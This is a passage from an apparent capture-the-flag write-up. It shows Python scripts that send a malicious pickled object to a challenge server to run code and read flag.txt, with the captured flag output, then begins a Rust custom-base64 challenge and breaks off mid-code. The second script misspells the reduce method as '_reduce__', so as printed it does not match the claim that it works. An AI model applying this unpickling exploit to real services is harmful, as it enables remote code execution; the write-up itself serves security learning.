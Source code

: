```python
    pickled = pickle.dumps(RCE())
    r = requests.post(f'{url}', data=base64.urlsafe_b64encode(pickle.dumps(RCE())).decode('utf-8'))
    
    print(r.text)


exploit()
```

I could not solve it in the competition time, but I read how (@CyberzSentry) solved it and used this script to gain the flag: 

```python
class PickleRce(object):
    def _reduce__(self): 
        return (exec, ("raise Exception(open('flag.txt').read())",))

def send_message(sender, recipient, plain_message):
    # Serialize the data for sending
    serialized_data = pickle.dumps (PickleRce())

    encoded_message = base64.urlsafe_b64encode(serialized_data).decode()
    response = requests.post(f" {BASE_URL}/send-message", data=encoded_message)

    return response.json()
```

When using the edited code it works and gets the flag!

```powershell
python .\client.py --url 'http://challenge.ctf.games:30348'  --send skullhat,skullhat,hello
{'error': 'flag{b2d366b8dbd31517c2de39e45fd5db28}\n'}
```

## Rusty

## Description

We heard you were a bit rusty on the basics... so here's a small warmup challenge for you!  
  
Here's some code attached and its output. Can you make any sense of it?  
  
`OPhMOnVheP1hRaOa1Pmi1GrBbGm21PRaepxXOPxMeG1iOaYd1ji=`  

When seeing this `rust` code, it's a base64 encoder but with a specific character set

```rust
use std::fs;

const CHARSET: &[u8] = b"QWlKoxp3mT9EeRb4YzgG6rNj1OLvZ5SDfMBaXtP8JyIFVH07uh2wicdnUAC#@q";

fn main() {
    let content = fs::read_to_string("flag.txt").expect("Unable to read flag.txt");

    let input = content.as_bytes();
    let mut output = Vec::new();

    let mut temp = 0u32;
    let mut temp_len = 0u8;

    for &byte in input {
        temp = (temp << 8) | byte as u32;
        temp_len += 8;

        while temp_len >= 6 {
            temp_len -= 6;
            output.push(CHARSET[((temp >> temp_len) & 0x3F) as usize]);
```